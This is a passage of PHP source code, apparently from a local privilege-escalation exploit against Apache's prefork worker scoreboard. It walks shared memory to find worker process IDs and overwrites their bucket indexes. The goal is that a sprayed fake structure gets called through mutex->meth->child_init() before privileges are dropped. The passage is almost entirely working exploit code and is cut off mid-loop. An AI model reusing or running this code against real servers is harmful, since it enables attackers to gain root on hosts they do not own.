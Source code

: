             # mutex->meth->child_init(), which will be called before privileges
            # are dropped.
            # We do this for every worker PID, incrementing the bucket index so that
            # we cover a bigger range.
            
            o('Iterating in SHM to find PIDs...');

            # Number of bucket indexes covered by our spray
            $spray_nb_buckets = (int) ($spray_size / $size_prefork_child_bucket);
            # Number of bucket indexes covered by our spray and the PS structures
            $total_nb_buckets = $spray_nb_buckets * count($workers_pids);
            # First bucket index to handle
            $bucket_index = $bucket_index_middle - (int) ($total_nb_buckets / 2);

            # Iterate over every process_score structure until we find every PID or
            # we reach the end of the SHM
            for(
                $p = $addresses['shm'][0] + 0x20;
                $p < $addresses['shm'][1] && count($workers_pids) > 0;
                $p += 0x24
            )
            {
                $l = $p - $address;
                $current_pid = str2ptr($this->abc, $l, 4);
                o('Got PID: ' . $current_pid);
                # The PID matches one of the workers
                if(in_array($current_pid, $workers_pids))
                {
                    unset($workers_pids[$current_pid]);
                    o('  PID matches');
                    # Update bucket address
                    $s_bucket_index = pack('l', $bucket_index);
                    $this->abc[$l + 0x20] = $s_bucket_index[0];
                    $this->abc[$l + 0x21] = $s_bucket_index[1];
                    $this->abc[$l + 0x22] = $s_bucket_index[2];
                    $this->abc[$l + 0x23] = $s_bucket_index[3];
                    o('  Changed bucket value to ' . $bucket_index);
                    $min = $spray_min - $size_prefork_child_bucket * $bucket_index;
                    $max = $spray_max - $size_prefork_child_bucket * $bucket_index;
                    o('  Ranges: 0x' . dechex($min) . ' - 0x' . dechex($max));
                    # This bucket range is covered, go to the next one
                    $bucket_index += $spray_nb_buckets;